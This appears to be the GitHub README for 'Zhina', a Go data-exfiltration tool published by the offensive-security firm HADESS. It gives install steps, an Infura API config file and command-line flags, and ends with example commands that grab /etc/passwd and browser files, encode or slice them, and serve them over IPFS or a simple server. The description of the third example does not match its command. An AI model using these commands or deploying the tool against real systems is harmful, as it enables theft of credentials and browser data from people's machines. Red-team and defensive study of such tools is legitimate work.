 ### Zhina



A simple app to exfiltration data with some features.

## Overview

A tools for exfiltration with mutliple way.

Brought to you by:

<img src="https://hadess.io/wp-content/uploads/2022/04/LOGOTYPE-tag-white-.png" alt="HADESS" width="200"/>

[HADESS](https://hadess.io) performs offensive cybersecurity services through infrastructures and software that include vulnerability analysis, scenario attack planning, and implementation of custom integrated preventive projects. We organized our activities around the prevention of corporate, industrial, and laboratory cyber threats.



## Background



## Installation

You can install a few ways:

1. Download the binary for your OS from https://github.com/HadessCS/zhina/releases
1. or use `go install`
   ```
   go install -v github.com/hadesscs/zhina
   ```
1. or clone the git repo and build
   ```
   git clone https://github.com/hadesscs/zhina.git
   cd zhina
   go get -v
   go build
   ```


## Configuration

Create a configuration file called `config.yaml` an example is available below:
```
---
infura:
  PROJECT_ID: [PROJECT_ID]
  API_SECRET_KEY: [API_SECRET_KEY]
```


When zhina runs it checks the current directory for a `config.yaml`, if you wish to use a different configuration file use the command `--config /path/to/file.yaml`


## Command Line Options
```
--all             For all devices
--config string   Configuration file: /path/to/file.yaml, default = ./config.yaml (default "config.yaml")
--debug           Display debugging information
--device string   What device to query, (default: "all")
--displayconfig   Display configuration
--do string       encode64
--path string     Path to Exfiltrate
--serve type           How Exfiltrate
--version         Display version information
--help            Display help
```




##  Example Usage
| Command | Details |
|:--|:--|
| `zhina --do encode64 --path /etc/passwd` | Exfiltrate password file |
| `zhina --path browser --slice slice1M --serve ipfs` | Exfiltrate Browser Files with 1M slice and serve on ipfs |
| `zhina --path /etc/passwd --slice slice1M --serve simple` | Exfiltrate Browser Files with 1M slice and serve on simple |




